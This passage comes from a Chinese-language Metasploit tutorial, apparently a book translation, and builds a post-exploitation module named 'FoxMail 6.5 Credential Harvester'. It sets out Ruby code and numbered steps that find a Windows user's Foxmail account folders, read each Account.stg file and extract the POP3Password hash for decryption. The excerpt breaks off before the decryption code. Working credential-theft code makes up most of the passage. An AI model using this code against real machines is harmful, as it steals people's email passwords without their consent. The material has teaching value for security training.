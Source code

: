 ```
class MetasploitModule < Msf::Post 
  include Msf::Post::Windows::Registry 
  include Msf::Post::File 
  include Msf::Auxiliary::Report 
  include Msf::Post::Windows::UserProfiles 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'          => 'FoxMail 6.5 Credential Harvester', 
      'Description'   => %q{ 
This Module Finds and Decrypts Stored Foxmail 6.5 Credentials 
      }, 
      'License'       => MSF_LICENSE, 
      'Author'        => ['Nipun Jaswal'], 
      'Platform'      => [ 'win' ], 
      'SessionTypes'  => [ 'meterpreter' ] 
    )) 
  end 
```

就像我们在前面的模块中看到的那样；我们首先包括所有必需的库，并提供有关模块的基本信息。

我们已经看到了`Msf::Post::Windows::Registry`和`Msf::Auxiliary::Report`的用法。让我们看看我们在此模块中包含的新库的详细信息，如下所示：

| **包含语句** | **路径** | **用法** |
| --- | --- | --- |
| `Msf::Post::Windows::UserProfiles` | `lib/msf/core/post/windows/user_profiles.rb` | 此库将提供 Windows 系统上的所有配置文件，包括查找重要目录、路径等。 |
| `Msf::Post::File` | `lib/msf/core/post/file.rb` | 此库将提供函数，将帮助文件操作，如读取文件、检查目录、列出目录、写入文件等。 |

在了解模块的下一部分之前，让我们看看我们需要执行哪些操作来收集凭据：

1.  我们将搜索用户配置文件，并找到当前用户的`LocalAppData`目录的确切路径。

1.  我们将使用先前找到的路径，并将其与`\VirtualStore\Program Files (x86)\Tencent\Foxmail\mail`连接起来，以建立到`mail`目录的完整路径。

1.  我们将从 `mail` 目录中列出所有目录，并将它们存储在一个数组中。但是，`mail` 目录中的目录名称将使用各种邮件提供程序的用户名命名约定。例如，`nipunjaswal@rocketmail.com` 将是 `mail` 目录中存在的目录之一。

1.  接下来，我们将在 `mail` 目录下找到帐户目录中的 `Account.stg` 文件。

1.  我们将读取 `Account.stg` 文件，并找到名为 `POP3Password` 的常量的哈希值。

1.  我们将哈希值传递给我们的解密方法，该方法将找到明文密码。

1.  我们将值存储在数据库中。

非常简单！让我们分析代码：

```
def run 
  profile = grab_user_profiles() 
  counter = 0 
  data_entry = "" 
  profile.each do |user| 
  if user['LocalAppData'] 
  full_path = user['LocalAppData'] 
  full_path = full_path+"\VirtualStore\Program Files (x86)\Tencent\Foxmail\mail" 
  if directory?(full_path) 
  print_good("Fox Mail Installed, Enumerating Mail Accounts") 
  session.fs.dir.foreach(full_path) do |dir_list| 
  if dir_list =~ /@/ 
  counter=counter+1 
  full_path_mail = full_path+ "\" + dir_list + "\" + "Account.stg" 
  if file?(full_path_mail) 
  print_good("Reading Mail Account #{counter}") 
  file_content = read_file(full_path_mail).split("n") 
```
